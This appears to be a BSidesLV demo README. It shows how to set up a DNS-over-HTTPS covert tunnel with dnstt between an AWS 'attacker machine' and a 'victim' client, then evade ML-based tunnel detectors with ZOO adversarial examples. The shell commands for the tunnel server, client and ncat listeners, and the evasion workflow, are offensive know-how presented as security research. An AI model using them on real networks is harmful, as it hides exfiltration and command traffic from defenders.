 # BsidesLV - Demo

## Generic Algorithm to attack any model using Zeroth Order Optimization (ZOO)

![Generic Script](../img/methodology.png)    

## Demo1 - DoH tunnel Basics - 101
In this demo, we will show how to create a DoH tunnel using [dnstt](https://www.bamsoftware.com/software/dnstt/) on AWS and how to use it to tunnel DNS traffic over HTTPS.

Pre-requisites:
- An AWS account
- An Elastic IP (AWS)
- DNS domain configured in Route 53 (AWS)

### DNS Setup
Go into the AWS Route53 service console and add two records:

A	tns.yourdomain.com	points to	34.239.223.23 (Elastic IP)
NS	t.yourdomain.com	is managed by	tns.yourdomain.com

tns.yourdomain.com points to the addresses of your tunnel server. It is marked as being the nameserver for everything in the t.yourdomain.com DNS zone. 
When a recursive resolver receives a query for subdomain.t.yourdomain.com, it will forward the query to the tunnel server—that is how the client tunnels data to the server.

The "tns" and "t" labels can be anything you want, but the "tns" label should not be a subdomain of the "t" label (everything under that subdomain is reserved for tunnel payloads). 
The "t" label should be short, because there is limited space available in a DNS message, and the domain name takes up part of it.

Here is an example of screen capture of the Route 53 configuration:

![Route53](../img/r53.png)

### Steps
1. Create an EC2 instance (attacker machine) on AWS and attach a elastic IP on it.
2. Make sure the security group allows both TCP and UDP traffic on port 53
3. Install dnstt-server on the EC2 instance
- Clone the dnstt repository: https://github.com/Mygod/dnstt and compile the dnstt-server
- Generate a key pair for the DoH tunnel

```shell
./dnstt-server -gen-key -privkey-file server.key -pubkey-file server.pub
```

4. Create a DoH tunnel (server side)

```shell
./dnstt-server -udp :5300 -privkey-file server.key t.mydomain.com 127.0.0.1:8000
```

5. Create a backend "application" to receive the tunneled traffic on server side

```shell
ncat -l -k -v 127.0.0.1 8000
```

6. Configure the client (victim/local machine) to use the DoH tunnel
- Copy the public key `server.pub` to the client machine

Note: 1.1.1.1 is the Cloudflare DNS resolver. You can use any DoH resolver you want.

```shell
./dnstt-client -doh https://1.1.1.1/dns-query -pubkey-file server.pub t.mydomain.com 127.0.0.1:7000
```

7. Create a backend "application" to receive the tunneled traffic on client side

```shell
ncat -v 127.0.0.1 7000
````

8. Test the DoH tunnel
9. Analyze the traffic
10. Cleanup

## Demo 2 - Attacking DoH Tunnel Detection models    
In this demo, we will demonstrate how to attack DoH tunnel detection models using adversarial examples generated by the 
Zoo Attack (Vanilla) and Zoo Target Attack.
In the Zoo Vanilla attack, the success rate is high because the attack algorithm faces fewer constraints when generating 
adversarial examples.
Conversely, in the Zoo Target attack, the success rate is lower due to the increased constraints on the attack algorithm. 
However, it is important to note that despite the lower success rate, this attack is more realistic. 
In a real-world scenario, we just need a single successful attack instance to achieve the desired effect.

### Zoo Attack (Vanilla Attack)
1. Normalize data: [normalize-data.ipynb](./bsides-experiments/normalize-data.ipynb)
2. Train a model: [build_model.ipynb](./bsides-experiments/build_model.ipynb)
3. Generate adversarial examples (attack): [ZooDoH_Attack_GB.ipynb](./bsides-experiments/ZooDoH_Attack_GB.ipynb)

### Zoo Target Attack 
1. Normalize data: [normalize-data.ipynb](./bsides-experiments/normalize-data.ipynb)
2. Train a model: [build_model.ipynb](./bsides-experiments/build_model.ipynb)
3. Get DoH tunnel tools feature limits: [get-doh-tunnel-tool-limits.ipynb](./bsides-experiments/get-doh-tunnel-tool-limits.ipynb)
4. Increase/decrease the feature limits according to your needs: Edit the file `dnstt-limits-prod.csv`
5. Choose features to attack: Edit the array `features_to_attack` on notebook `Target_ZooDoH_Attack_GB.ipynb`. 
You can use the [feature list](./FEATURE_LIST.md) as a reference.
6. Generate adversarial examples (attack): [Target_ZooDoH_Attack_GB.ipynb](./bsides-experiments/Target_ZooDoH_Attack_GB.ipynb)

## Demo 3 - Real world Black Box Attacking (real-world scenario)   
In this demo, we will demonstrate how to attack DoH tunnel detection models using adversarial examples generated by the Target Zoo Attack in a real-world scenario.
The model is loaded by the [nids-ml.py](./feature-extractor/meter/nids-ml.py) script, simulating a real ML-based NIDS to detect DoH tunnel. The script captures the network traffic, normalize it and classifies it using the loaded model.
We use auxiliary scripts ([generate-tunnel-data](./tunel-dnstt/generate-tunnel-data.py) | [generate-attacked-tunnel-data](./tunel-dnstt/generate-attacked-tunnel.py)) to produce tunnel data and send it to the NIDS.

![Demo Target Zoo Attack](../img/demo_target_zoo.png)

**Warning: This demo simulates a real-world scenario, where the training data were generated under specific network 
conditions such as latency, bandwidth, and network configuration. As a result, your outcomes may differ from those 
presented in the demo. However, you can generate your own training data and train your model accordingly. 
For detailed instructions, refer to the "Generate Your Own Training Data" section in the 
[GENERATING_TRAINING_DATA.md](./GENERATING_TRAINING_DATA.md) document.**

### Steps

1. Run steps 1-6 from [Demo 1](#demo1---doh-tunnel-basics---101).
Note: Do not create the backend application on the client side.
2. Run [Target Zoo Attack](#zoo-target-attack-) - The steps are the same as showed in [Demo 2](#demo-2---attacking-doh-tunnel-detection-models-).
3. On the local machine, start the NIDS script, specifying the interface (-n), the model path (-m), and a path to save the captured data (-c).

```shell
cd feature-extractor/meter
./nids-ml.py -n <INTERFACE> --enable-nids -m ../../bsides-experiments/ -c /tmp/captured.csv
```

4. Choose the (best) features you want to reproduce based on the two last [notebook](./bsides-experiments/Target_ZooDoH_Attack_GB.ipynb) cells 
and replace the values on the [generate-attacked-tunnel-data](./tunel-dnstt/generate-attacked-tunnel.py) script.

5. Run the [generate-attacked-tunnel-data](./tunel-dnstt/generate-attacked-tunnel.py) script to send the adversarial examples to the NIDS.
Tip: You can run the benign traffic script ([generate-tunnel-data](./tunel-dnstt/generate-tunnel-data.py)) to compare the results.

